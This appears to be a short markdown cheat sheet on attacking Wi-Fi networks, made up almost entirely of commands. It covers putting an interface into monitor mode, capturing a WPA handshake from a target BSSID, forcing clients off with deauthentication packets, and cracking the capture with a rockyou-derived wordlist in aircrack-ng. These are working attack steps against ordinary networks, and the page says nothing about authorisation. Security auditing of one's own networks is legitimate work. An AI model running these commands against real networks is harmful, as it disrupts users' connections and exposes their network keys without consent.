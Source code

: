 
### WiFi Security
Check Wireless interface
```
$ iwconfig wlan0
$ airmon-ng check / check kill (check and kill interfering processes with monitor interface)
```
Set up monitor mode interface on wlan0
```
$ airmon-ng start wlan0
or
$ airmon-ng stop wlan0mon
```
Check packet injection and link quality
```
$ aireplay-ng -9 wlan0mon
```
Discover wireless networks
```
$ kismet -c mon0
or
$ airodump-ng mon0
$ airodump-ng -c 11 -a mon0 (+lock to channel)
```
WPA Capture
```
Airodump-ng --bssid <TargetNetworkBSSID> -c <channel> -w handshake (outputfile)  wlan0mon (interface)
``` 
Deauth client from BSSID network
```
Aireplay-ng -0 0 -a <TargetNetworkBSSID> -c ClientMAC wlan0mon
```
Dictionary Attack vs WPA handshake - WPA keys are between 8 and 63 characters.  
Optimize wordlist for WPA/WPA2 testing
```
$ pw-inspector -i rockyou.txt -o optimized.txt -m 8 -M 63
then
$ aircrack-ng -w optimized.txt ../handshake/handshake.cap
```
